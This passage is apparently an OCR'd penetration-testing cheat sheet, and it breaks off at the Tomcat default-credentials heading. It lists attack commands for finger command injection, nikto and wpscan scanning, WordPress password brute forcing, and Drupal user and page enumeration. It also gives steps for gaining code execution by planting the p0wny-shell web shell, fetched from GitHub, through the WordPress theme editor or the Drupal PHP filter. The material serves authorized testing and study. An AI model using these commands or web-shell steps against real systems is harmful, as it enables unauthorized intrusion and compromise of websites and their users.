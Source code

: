 finger @<IP>
finger <USER>@<IP>
Command execution
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
HTTP - HTTPS - 80 - 443
Automatic scanners
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
Wordpress
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
Wordpress panel RCE
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
Drupal
droopescan scan -u <URL>
Username enumeration
In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*

If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*

If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*

Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)
Hidden pages enumeration
Fuzz /node/<NUMBER> where <NUMBER> is a number (from 1 to 500 for example).
You could find hidden pages (test, dev) which are not referenced by the search engines.

wfuzz -c -z range,1-500 --hc 404 <URL>/node/FUZZ
Drupal panel RCE
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)

Go to Modules -> (Check) PHP Filter  -> Save configuration

https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php

Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
Joomla
joomscan -u <URL>
./joomlavs.rb --url <URL> -a -v
Tomcat
Default credentials
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :
